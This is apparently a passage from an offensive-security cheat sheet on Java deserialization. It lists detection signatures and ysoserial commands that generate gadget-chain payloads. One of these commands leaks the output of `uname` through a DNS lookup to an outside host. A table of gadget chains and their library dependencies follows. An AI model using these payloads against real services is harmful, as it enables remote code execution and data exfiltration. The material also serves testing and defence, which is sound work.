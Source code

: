 # Java Deserialization

> Java serialization is the process of converting a Java object’s state into a byte stream, which can be stored or transmitted and later reconstructed (deserialized) back into the original object. Serialization in Java is primarily done using the `Serializable` interface, which marks a class as serializable, allowing it to be saved to files, sent over a network, or transferred between JVMs.

## Summary

* [Detection](#detection)
* [Tools](#tools)
    * [Ysoserial](#ysoserial)
    * [Burp extensions using ysoserial](#burp-extensions)
    * [Alternative Tooling](#alternative-tooling)
* [YAML Deserialization](#yaml-deserialization)
* [ViewState](#viewstate)
* [References](#references)

## Detection

* `"AC ED 00 05"` in Hex
    * `AC ED`: STREAM_MAGIC. Specifies that this is a serialization protocol.
    * `00 05`: STREAM_VERSION. The serialization version.
* `"rO0"` in Base64
* `Content-Type` = "application/x-java-serialized-object"
* `"H4sIAAAAAAAAAJ"` in gzip(base64)

## Tools

### Ysoserial

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

**List of payloads included in ysoserial:**

| Payload             | Authors                                | Dependencies |
| ------------------- | -------------------------------------- | --- |
| AspectJWeaver       | @Jang                                  | aspectjweaver:1.9.2, commons-collections:3.2.2 |
| BeanShell1          | @pwntester, @cschneider4711            | bsh:2.0b5 |
| C3P0                | @mbechler                              | c3p0:0.9.5.2, mchange-commons-java:0.2.11 |
| Click1              | @artsploit                             | click-nodeps:2.3.0, javax.servlet-api:3.1.0 |
| Clojure             | @JackOfMostTrades                      | clojure:1.8.0 |
| CommonsBeanutils1   | @frohoff                               | commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2 |
| CommonsCollections1 | @frohoff                               | commons-collections:3.1 |
| CommonsCollections2 | @frohoff                               | commons-collections4:4.0 |
| CommonsCollections3 | @frohoff                               | commons-collections:3.1 |
| CommonsCollections4 | @frohoff                               | commons-collections4:4.0 |
| CommonsCollections5 | @matthias_kaiser, @jasinner            | commons-collections:3.1  |